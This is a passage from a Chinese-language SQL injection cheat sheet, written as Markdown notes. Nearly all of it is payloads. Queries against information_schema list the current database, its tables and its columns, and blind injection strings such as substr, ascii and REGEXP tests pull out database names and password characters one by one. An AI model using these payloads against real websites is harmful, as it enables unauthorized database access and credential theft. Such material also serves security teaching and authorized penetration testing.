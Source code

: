 ```
select database()

select schema_name from information_schema.schemata limit 0,1
```

#### 2.2.2 表名

```
# 表数量
select count(table_name) from information_schema.tables where table_schema=database()

# 第一个表名
select table_name from information_schema.tables where table_schema=database() limit 0,1 

# 所有表名
select make_set(3,'-',(select group_concat(table_name) from information_schema.tables where table_schema=database()),1)	

and exists(select * from users)-- - 	
```

#### 2.2.3 字段名

```
# 字段数量
select count(column_name) from information_schema.columns where table_schema=database() and table_name=表名

# 第一个字段名
select column_name from information_schema.columns where table_schema=database() and table_name=表名 limit 0,1

# 所有字段名
select make_set(3,'-',(select group_concat(column_name) from information_schema.columns where table_name="users"),1)	

or (flag)

and exists(select username from users)-- -
```

#### 2.2.4 数据

```
1' and length(database())=7-- -
1' and substr(database(),1,1)>'a'-- -
1' and substring(database(),1,1),mid(database(),1,1)-- -
1' and left(database(),1)>'a'-- -
1' and right(database(),1)>'a'-- -
1' and ascii(substr(database(),1,1))>91-- -
limit 1 offset n
mid(passwd from 1 for 1)
mid('abc',1,1)
or username  REGEXP "^admin"
locate('abcd',abc)
```
